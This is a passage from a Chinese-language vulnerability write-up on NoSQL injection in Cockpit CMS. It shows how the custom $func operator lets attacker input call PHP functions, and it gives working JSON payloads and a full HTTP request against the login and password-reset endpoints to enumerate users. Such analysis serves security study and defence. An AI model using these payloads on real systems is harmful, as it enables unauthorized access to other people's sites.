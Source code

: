 ```
    "csfr":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJjc2ZyIjoibG9naW4ifQ.dlnu8XjKIvB6mGfBlOgjtnixirAIsnzf5QTAEP1mJJc"
}
```

### 自定义$func/$fn/$f 操作符

在Cockpit的**lib/MongoLite/Database.php**的[`evaluate`](https://github.com/agentejo/cockpit/blob/0d01412e1209468c23f0f4c49eccf959059e415e/lib/MongoLite/Database.php#L432)函数中重写和新增很多MongoDB操作符，其中`$func`、`$fn`和`$f`操作符比较有意思，因为该操作符允许调用callable PHP函数：

![img](nosql注入.assets/t0179c40915ee4f309d.png)

`$func`操作符并不是MongoDB中定义的标准操作符，在Cockpit CMS中，该操作符可以调用任何带有单个参数的PHP标准函数，其中`$b`是我们可控的。

所以我们可以构造这样的payload：

```
{
    "auth":{
        "user":{
            "$func":"var_dump"
        },
        "password":[
            0
        ]
    },
    "csfr":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJjc2ZyIjoibG9naW4ifQ.dlnu8XjKIvB6mGfBlOgjtnixirAIsnzf5QTAEP1mJJc"
}
```

https://github.com/agentejo/cockpit/blob/0d01412e1209468c23f0f4c49eccf959059e415e/lib/MongoLite/Database.php#L432

代码👆

之后的漏洞，大同小异，都是因为过滤出现问题导致的Nosql注入，直接开始搬运。

## /auth/requestreset

在忘记登录密码的情况下，Cockpit提供了密码重置功能，相关逻辑在`modules/Cockpit/Controller/Auth.php`中，和登录逻辑一样，传入`$this->app->storage->findOne()`进行查询的参数`$query`完全没有经过处理：

[![img](nosql注入.assets/t017786a70a1d30b516.png)](https://p1.ssl.qhimg.com/t017786a70a1d30b516.png)

在这里，我们可以用相同的方法来获取用户名：

```
POST /cockpit/auth/requestreset HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://your-ip:8000/cockpit/auth/forgotpassword
X-Requested-With: XMLHttpRequest
Content-Type: application/json; charset=UTF-8
Content-Length: 33
Connection: close
Cookie: 8071dec2be26139e39a170762581c00f=e0050af94b1d4e88d31e7695c2b5142a

{
    "user":{
        "$func":"var_dump"
    }
}
```